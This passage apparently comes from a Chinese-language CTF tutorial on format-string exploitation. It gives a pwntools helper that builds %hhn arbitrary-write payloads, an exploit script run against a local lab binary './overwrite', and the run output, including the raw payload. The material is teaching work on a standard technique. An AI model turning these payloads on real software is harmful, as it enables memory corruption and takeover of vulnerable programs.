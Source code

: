```python
            payload += p64(addr + i)
    prev = len(payload)
    for i in range(4):
        payload += fmt(prev, (target >> i * 8) & 0xff, offset + i)
        prev = (target >> i * 8) & 0xff
    return payload
payload = fmt_str(6,4,0x0804A028,0x12345678)
```

其中每個參數的含義基本如下

- offset表示要覆蓋的地址最初的偏移
- size表示機器字長
- addr表示將要覆蓋的地址。
- target表示我們要覆蓋爲的目的變量值。

相應的exploit如下

```python
def forb():
    sh = process('./overwrite')
    payload = fmt_str(6, 4, 0x0804A028, 0x12345678)
    print payload
    sh.sendline(payload)
    print sh.recv()
    sh.interactive()
```

結果如下

```python
➜  overwrite git:(master) ✗ python exploit.py
[+] Starting local process './overwrite': pid 78547
(\xa0\x0)\xa0\x0*\xa0\x0+\xa0\x0%104c%6$hhn%222c%7$hhn%222c%8$hhn%222c%9$hhn
[*] Process './overwrite' stopped with exit code 0 (pid 78547)
0xfff6f9bc
(\xa0\x0)\xa0\x0*\xa0\x0+\xa0\x0                                                                                                       X                                                                                                                                                                                                                             �                                                                                                                                                                                                                             \xbb                                                                                                                                                                                                                             ~modified b for a big number!
```

當然，我們也可以利用%n分別對每個地址進行寫入，也可以得到對應的答案，但是由於我們寫入的變量都只會影響由其開始的四個字節，所以最後一個變量寫完之後，我們可能會修改之後的三個字節，如果這三個字節比較重要的話，程序就有可能因此崩潰。而採用%hhn則不會有這樣的問題，因爲這樣只會修改相應地址的一個字節。

